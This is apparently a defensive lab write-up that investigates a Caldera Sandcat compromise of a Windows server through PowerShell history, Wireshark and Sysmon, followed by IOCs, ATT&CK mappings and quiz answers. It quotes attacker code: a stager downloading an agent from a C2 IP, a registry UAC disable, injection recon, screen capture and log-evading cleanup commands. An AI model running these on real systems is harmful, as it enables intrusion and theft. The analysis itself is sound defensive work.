




## Scenario

A company server was compromised by an adversary and taken offline as soon as suspicious activity was identified. As a defender, you are required to perform analysis on the post-compromise actions taken on the server. Administrator access is provided to investigate the system thoroughly.

---

## Methodology

### Initial Triage — Wireshark

Opening the packet capture, initial filtering reveals nothing immediately suspicious. The investigation pivots to the endpoint.

### PowerShell History

PSReadLine history is one of the first places to check on a Windows endpoint for attacker activity. Located at:

```
C:\Users\BTLOTest\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

The history reveals the initial stager — a PowerShell command downloading a Go-based agent:


```
if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};
$server="http://3.108.217.40:8888";
$socket="3.108.217.40:7010";
$contact="tcp";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","manx.go");
$data=$wc.DownloadData($url);
...
Get-Process | ? {$_.Path
```

Key observations:

- C2 server: `hxxp[://]3[.]108[.]217[.]40:8888` (HTTP beacon)
- C2 socket: `3[.]108[.]217[.]40:7010` (TCP reverse shell)
- Agent requested: `manx.go` — later identified as `sandcat.go` (MITRE Caldera Sandcat agent)
- Process enumeration filtered by `Path` — injectable process recon

### Following the C2 Shell — Wireshark

Filtering on `tcp.dstport == 7010` and following the TCP stream exposes the full attacker shell session. All commands are issued as `powershell -Enc` (Base64 + UTF-16LE encoded) to evade logging.

**Decoding methodology in CyberChef:**

1. From Base64
2. Decode text → UTF-16LE

### Decoded C2 Commands

|Base64 Blob|Decoded Command|
|---|---|
|`RwBlAHQALQBDAGwAaQBwAGIAbwBhAHIAZAAgAC0AcgBhAHc=`|`Get-Clipboard -raw`|
|`TgBlAHcALQBJAHQAZQBtACAALQBQ...`|`New-Item -Path "." -Name "staged" -ItemType "directory" -Force`|
|`RwBlAHQALQBDAGgAaQBsAGQASQB0...`|`Get-ChildItem C:\Users -Recurse -Include *.png -first 5`|
|`QwBvAHAAeQAtAEkAdABlAG0A...`|`Copy-Item ...RobotoMono72White.png C:\Users\BTLOTest\staged`|
|`QwBvAHAAeQAtAEkAdABlAG0A...`|`Copy-Item ...RobotoBlack72White.png C:\Users\BTLOTest\staged`|
|`QwBvAG0AcAByAGUAcwBzAC0A...`|`Compress-Archive -Path staged -DestinationPath staged.zip`|
|`dwBtAGkAYwAgAC8ATgBBAE0A...`|`wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value`|
|`LgBcAG8AYgBmAHUAcwBjAGEAdABlAGQAXwBwAGEAeQBsAG8AYQBkAC4AcABzADEAIAAtAFMAYwBhAG4A`|`.\obfuscated_payload.ps1 -Scan`|
|`LgBcAHcAaQBmAGkALgBwAHMAMQAgAC0AUAByAGUAZgA=`|`.\wifi.ps1 -Pref`|

The attacker also ran `arp -a` and `nbtstat -A 172.31.13.162` for internal network reconnaissance.

### Identifying Persistence — Sysmon Event ID 1

Searching Sysmon process creation events (Event ID 1) for child processes reveals the C2 agent dropped to disk masquerading as a legitimate service:

```
ParentImage:       C:\Users\Public\splunkd.exe
ParentCommandLine: "C:\Users\Public\splunkd.exe" -socket 3.108.217.40:7010 
                   -http http://3.108.217.40:8888 -contact tcp
ParentProcessId:   7976
```

**`splunkd.exe` in `C:\Users\Public\`** is a masquerading technique (T1036.005) — legitimate Splunk binaries never reside in user-accessible public directories. This is the Caldera Sandcat agent renamed to blend into process listings.

### Attacker Activity Timeline (from Sysmon + Wireshark)

**09:02 — Caesar cipher obfuscation (PID 5904)**

Sysmon Event ID 1 reveals a PowerShell process spawned by splunkd (PID 7976) using a Caesar cipher shift of -18 to obfuscate commands:


```
powershell.exe -ExecutionPolicy Bypass -C "$encrypted = \"wuz $(yw-su)\"; 
$cmd = \"\"; $encrypted = $encrypted.toCharArray(); 
foreach ($letter in $encrypted) {$letter = [char](([int][char]$letter) - 18); 
$cmd += $letter;} write-output $cmd;"
```

Decoding `wuz $(yw-su)` with shift 18 resolves the obfuscated command content.

**09:11 — Injectable process enumeration (PID 1476)**

`powershell.exe -ExecutionPolicy Bypass -C Get-Process` — raw process listing for initial recon.

**09:12 — Targeted injectable process search (PID 4216)**

The most targeted injection recon event, using WMI to find svchost processes owned by the current user:


```
powershell.exe -ExecutionPolicy Bypass -C "$owners = @{};
gwmi win32_process |%% {$owners[$_.handle] = $_.getowner().user};
$ps = get-process | select processname,id,@{l=\"Owner\";e={$owners[$_.id.tostring()]}};
$valid = foreach($p in $ps) { if($p.Owner -eq $env:USERNAME -And $p.ProcessName -eq \"svchost\") {$p} };
$valid | ConvertTo-Json"
```

This targets user-owned `svchost` processes — the classic Metasploit/Caldera migration target for process injection.

**09:12 — Obfuscated payload scan (PID 1404)**

`.\obfuscated_payload.ps1 -Scan` — the `-Scan` flag triggers injectable process identification within the obfuscated payload framework.

**09:14 — UAC disabled via registry (PID 6848)**

`wifi.ps1 -Pref` decodes to a PowerShell command disabling UAC entirely:


```
New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system 
-Name EnableLUA -PropertyType DWord -Value 0 -Force
```

Setting `EnableLUA = 0` disables User Account Control system-wide (T1548.002). The Caldera group tag `bypassed_u_bro` visible in the sandcat dropper confirms the attacker acknowledged the bypass succeeded.

**09:15 — PowerShell Core installed (then cleaned up)**

```
$wc=New-Object System.Net.WebClient;
$output="PowerShellCore.msi";
$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", $output);
Start-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1"
```

PowerShell 6.2.2 (PowerShell Core) was installed silently. PS Core uses a separate logging pipeline from Windows PowerShell, helping evade ScriptBlock logging on the legacy engine.

**09:15 — Screenshot captured**

Decoded obfuscated payload reveals a screen capture function saving to the Desktop:

```
$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");
function screenshot([Drawing.Rectangle]$bounds, $path) {
  $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;
  $graphics = [Drawing.Graphics]::FromImage($bmp);
  $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);
  $bmp.Save($path);
  $graphics.Dispose(); $bmp.Dispose();
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);
$dest = "$HOME\Desktop\screenshot.png";
screenshot $bounds $dest;
```

Wireshark confirms execution: `{"response":"C:\\Users\\BTLOTest\\Desktop\\screenshot.png","status":0}`

**09:15 — Clipboard exfiltrated**

Immediately after the screenshot, `Get-Clipboard -raw` was executed. The C2 response reveals the clipboard contents:

```
{"response":"R3vengers@013_globalP@ss!\r\n","status":0}
```

A plaintext credential was sitting in the user's clipboard — exfiltrated directly over the C2 channel.

**09:15 — Staged exfiltration**

The attacker searched for PNG files, copied two font PNGs from CyberChef as cover files, staged them with the screenshot, and compressed everything:

```
C:\Users\BTLOTest\staged\RobotoMono72White.png
C:\Users\BTLOTest\staged\RobotoBlack72White.png  
→ Compressed to: C:\Users\BTLOTest\staged.zip
```

**09:16 — Cleanup**

All artifacts removed to hinder forensic analysis:

- `Remove-Item -Force -Path "Akagi64.exe"`
- `Remove-Item -Force -Path "Bypass-UAC.ps1"`
- `Remove-Item -Force -Path "obfuscated_payload.ps1"`
- `Remove-Item -Force -Path "wifi.ps1"`
- `rm PowerShellCore.msi`
- `rm C:\Users\BTLOTest\staged.zip`
- `Remove-Item -Path "staged" -recurse`
- `Clear-History; Clear`

Notable: the attacker saw `Sysmon64` and `Wireshark` in the `Get-Process` output, confirming they knew monitoring was active.

---

## IOCs

|Type|Value|
|---|---|
|IP|3[.]108[.]217[.]40|
|URL|hxxp[://]3[.]108[.]217[.]40:8888|
|Socket|3[.]108[.]217[.]40:7010|
|File|C:\Users\Public\splunkd.exe|
|File|C:\Users\BTLOTest\Desktop\screenshot.png|
|Hash (splunkd)|MD5: 7353F60B1739074EB17C5F4DDDEFE239|
|Hash (splunkd)|SHA256: DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C|
|Credential|R3vengers@013_globalP@ss! (exfiltrated clipboard)|

---

## MITRE ATT&CK

| Technique                       | ID        | Description                                             |
| ------------------------------- | --------- | ------------------------------------------------------- |
| PowerShell                      | T1059.001 | All C2 commands issued via powershell -Enc              |
| Obfuscated Files or Information | T1027     | Base64 + UTF-16LE encoding; Caesar cipher shift -18     |
| Masquerading                    | T1036.005 | sandcat.go dropped as splunkd.exe                       |
| Process Injection               | T1055     | svchost injection recon via WMI owner enumeration       |
| Bypass UAC                      | T1548.002 | EnableLUA set to 0 via registry; Akagi64 UACME tool     |
| Screen Capture                  | T1113     | System.Drawing.CopyFromScreen to Desktop\screenshot.png |
| Clipboard Data                  | T1115     | Get-Clipboard -raw over C2 channel                      |
| Data from Local System          | T1005     | PNG files staged and compressed for exfiltration        |
| Ingress Tool Transfer           | T1105     | sandcat.go + Akagi64 + PowerShellCore.msi downloaded    |
| Indicator Removal               | T1070     | Full cleanup of all dropped files + history cleared     |
| AV Discovery                    | T1518.001 | wmic AntiVirusProduct query                             |
| Network Share Discovery         | T1135     | Get-SmbShare \| ConvertTo-Json                          |

---


<div class="qa-item"> <div class="qa-question-text">What type of connection is used to connect to C2 server, what is the remote port?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">tcp, 7010</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the attacker spawned executable used to keep the connection?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">C:\Users\Public\splunkd.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the process ID that persisted the connection to the C2 server?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">7976</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the process ID trying to find injectable processes?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">4216</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What kind of cipher was used in the PowerShell command executed in the process 5904 and parent process being the at- tacker spawned executable?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Caesar</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the ProcessId where an attempt is made to bypass UAC by setting a registry key</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">6848</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What clipboard data did the adversary exfiltrate?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">R3vengers@013_globalP@ss!</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Did the attacker perform screen capture? Where was the screen capture located?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">C:\Users\BTLOTest\Desktop\screenshot.png</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the version of the Powershell, the adversary was trying to install?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">6.2.2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
